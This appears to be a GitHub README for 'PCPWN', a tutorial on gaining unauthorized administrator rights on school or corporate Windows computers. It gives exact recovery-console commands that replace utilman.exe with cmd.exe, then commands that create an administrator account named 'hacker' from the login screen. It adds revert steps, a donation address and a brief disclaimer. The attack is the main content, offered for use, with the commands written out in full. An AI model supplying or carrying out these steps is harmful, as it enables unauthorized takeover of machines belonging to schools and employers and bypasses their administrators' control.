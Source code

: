 
<p align="center">
<img src="https://cdn-icons-png.flaticon.com/512/207/207130.png", width="200", height="200">
</p>

<h1 align="center"> [ PCPWN ]</h1>
<h4 align="center">How can I obtain administrative privileges on a school computer
</h4>

### DESCRIPTION
PCPWN is an informative tutorial that guides you through the process of gaining unauthorized access to administrative privileges on a computer within a school or corporate environment, all without relying on the pre-existing company-created admin account.

### 1. Access Windows RE (Recovery Environment):
  Start by accessing recovery mode on the target system. [7 Quick Ways to Boot Into the Windows Recovery Environment](https://www.makeuseof.com/ways-to-boot-into-the-windows-recovery-environment/)
    
  #### When the computer is turned off:

        Press and hold the Windows Key and press the power button.
        Release both keys.

 #### From the Windows Logon screen:
        Click the Power Button icon.
        Hold the SHIFT Key and click Restart.

#### When the computer is turned on:

<table>
  <tr>
    <td align="center">
      <a href="#"><img src="https://i.imgur.com/NNXrJrk.png" width="300" /></a>
        <br />
      </a>
    </td>
    <td align="center">
      <a href="#"><img src="https://i.imgur.com/zbDdvEI.png" width="300" /></a>
        <br />
      </a>
    </td>
    <td align="center">
     <a href="#"><img src="https://i.imgur.com/R1Tg6vo.png" width="300" /></a>
        <br />
      </a>
    </td>
      <td align="center">
     <a href="#"><img src="https://i.imgur.com/DwzVX1G.png" width="300" /></a>
        <br />
      </a>
    </td>
      <td align="center">
     <a href="#"><img src="https://i.imgur.com/oDvOtPm.png" width="300" /></a>
        <br />
      </a>
    </td>
</table>

Search "recovery start-up" > click recovery start-up.

Click Restart Now button under the Advanced start-up section. The computer should restart and enter recovery mode.

then navigate to "Troubleshoot," click "Advanced option" and finally, select "Command Prompt."

### 2. Utilizing Command Prompt and Changing Utilman to CMD:
In the Command Prompt, type the following command:

    wmic logicaldisk get caption                        - List available drives
    c:                                                  - Change to the C: drive
    cd Windows\System32                                 - Navigate to the System32 folder
    ren utilman.exe utilman.exe.bak                     - Rename utilman.exe to utilman.exe.bak
    copy cmd.exe utilman.exe                            - Copy cmd.exe to utilman.exe
    exit                                                - exit the command prompt
    
### 4. Adding a User Account:
Return to the login screen and click on "Ease of Access Icon."

In the Command Prompt, type the following command:

    net user hacker hacker /add                         - Create a new user named "hacker" with password "hacker"
    net localgroup Administrators hacker /add           - Add the user "hacker" to the Administrators group

### 5. Logging In with the New Account with admin priv:
    Log in with your non-administrator account.
    Open PowerShell as an administrator.
    Type username: DOMAIN\hacker password: hacker

Guess what? You've got the keys to the kingdom now! Your regular account? Well, it's not so regular anymore. It's been upgraded to full-on admin mode. That means you're not just a regular user – you're the boss.

With these admin superpowers, you can do a whole bunch of cool stuff. Need to tweak some settings? No problem. Want to add or manage users? Easy peasy. It's like having a backstage pass to the entire system. So go ahead, explore, and make this digital world yours!

### TESTED ON FOLLOWING
* Windows 11
* Windows 10
* Windows 7


### Reverting Changes
To restore utilman.exe, in the Command Prompt type in:

    C:
    cd windows\system32
    del utilman.exe
    ren utilman.exe.bak utilman.exe

Then reboot the system.

## Support

If you find my work helpful and want to support me, consider making a donation. Your contribution will help me continue working on open-source projects.

**Bitcoin Address: `36ALguYpTgFF3RztL4h2uFb3cRMzQALAcm`**
   
<h1 align="center"> DISCLAIMER </h1>

<h4 align="center">I'm not responsible for anything you do with this tutorial, so please only use it for good and educational purposes. </h4>

